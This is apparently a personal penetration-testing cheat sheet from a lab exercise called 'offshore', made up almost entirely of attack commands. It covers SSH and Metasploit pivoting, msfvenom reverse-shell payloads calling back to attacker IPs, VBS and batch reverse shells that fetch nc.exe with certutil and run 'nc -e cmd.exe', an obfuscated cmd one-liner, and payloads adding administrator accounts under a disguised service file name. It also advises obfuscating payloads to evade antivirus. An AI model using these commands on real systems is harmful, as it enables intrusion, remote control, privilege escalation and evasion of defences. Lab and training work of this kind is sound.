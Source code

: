 # These are just tricks I picked up in offshore, will get exploded into different dirs at some point.

#### Pivoting

### method 1:

Add to proxychains.conf:
`socks4 127.0.0.1 1080`  
`ssh -D 1080 -i 10.10.110.123/root_ssh root@NIX01`  
`proxychains nmap -sV 172.16.1.0-254`  

### Method 2:
*if I could nmap through this tunnel it would be the preffered method  

`sshuttle -vr root@NIX01 172.16.1.1/24 --ssh-cmd "ssh -i 10.10.110.123/root_ssh"`  

### Method 3:  
msf > use auxiliary/scanner/ssh/ssh_login_pubkey  
msf auxiliary(ssh_login_pubkey) > set RHOSTS 10.10.110.123    
msf auxiliary(ssh_login_pubkey) > set USERNAME root  
msf auxiliary(ssh_login_pubkey) > set KEY_PATH 10.10.110.123/root_ssh  
msf auxiliary(ssh_login_pubkey) > run  
ctrl+z
sessions -u 2
background
use auxiliary/server/socks_proxy
run


meterpreter > run post/multi/manage/autoroute  
CTRL+Z  
use auxiliary/scanner/portscan/tcp   
set RHOSTS 172.16.1.0/24  

### Method 4:  

`ssh -D 1080 -i 10.10.110.123/root_ssh root@NIX01` *1080 is redsocks proxy default*  
`echo 1 > /proc/sys/net/ipv4/ip_forward`  
`iptables -t nat -A OUTPUT -p tcp -d 172.16.1.0/24 -j REDIRECT --to-ports 12345`  
`iptables -t nat -A PREROUTING -p tcp -d 172.16.1.0/24 -j REDIRECT --to-ports 12345`  
`/usr/sbin/redsocks -c /etc/redsocks.conf `

# Get a proper shell from a half/broken shell
`msfvenom -p cmd/unix/reverse_python lhost=69.201.13.55 lport=3344 R`
paste in your shell, profit
`python -c 'import pty; pty.spawn("/bin/sh")'`

## Start mult/handler:
`sudo msfconsole -x "use exploits/multi/handler; set lhost 10.10.14.14; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"`
`msfvenom -p windows/x64/meterpreter_reverse_http -f psh LHOST=10.10.14.14 LPORT=443 -o l.ps1`

## Start SMB for infil/exfil:  
`$ sudo impacket-smbserver -smb2support GUEST /home/kymb0/Desktop/backup/offshore/toolz`

## Reverse shell vbs (remember to run PS shellcode through https://github.com/danielbohannon/Invoke-obfuscation)
`Set objShell = CreateObject("Wscript.Shell")
objShell.Run("powershell.exe -noexit \\10.10.14.14\GUEST\l.ps1")`

## Reverse shell bat (remember to run through https://github.com/danielbohannon/Invoke-DOSfuscation)
cmd.exe /c
certutil.exe -urlcache -split -f http://10.10.14.14/nc.exe 
C:\ManageEngine_new\OpManager\logs\nc.exe
C:\ManageEngine_new\OpManager\logs\nc.exe -nv 10.10.14.14 443 -e cmd.exe

EG:  
```
cmd /V:ON/C"set Eiz8=d3uc 0v-olCeh\xt.saip1mEO:fn4gMwr/_&&for %n in (3,22,0,16,11,14,11,4,33,3,4,3,11,32,15,2,15,19,9,16,11,14,11,4,7,2,32,9,3,18,3,12,11,4,7,17,20,9,19,15,4,7,26,4,12,15,15,20,25,33,33,21,5,16,21,5,16,21,28,16,21,28,33,27,3,16,11,14,11,4,10,25,13,30,18,27,18,29,11,23,27,29,19,27,11,34,27,11,31,13,24,20,30,18,27,18,29,11,32,13,9,8,29,17,13,27,3,16,11,14,11,4,10,25,13,30,18,27,18,29,11,23,27,29,19,27,11,34,27,11,31,13,24,20,30,18,27,18,29,11,32,13,9,8,29,17,13,27,3,16,11,14,11,4,7,27,6,4,21,5,16,21,5,16,21,28,16,21,28,4,28,28,1,4,7,11,4,3,22,0,16,11,14,11,39)do set xoi=!xoi!!Eiz8:~%n,1!&&if %n gtr 38 call %xoi:~5%"
```
## Add user payload
`msfvenom -p windows/adduser USER=Admin PASS=Admin123 -f exe -o Lavasoft.WCAssistant.WinService.exe`
`msfvenom -f exe -p windows/exec CMD="cmd /c C:\Users\ned.flanders_adm/test.bat" -o Lavasoft.WCAssistant.WinService.exe `

## Exploit unquoted service paths
All exe's from msfvenom and powerup NO WORK, even bat file to grab NC got caught, so I made a user:
https://bat2exe.net/
net user shrek shrekt123 /add
net localgroup administrators shrek /add
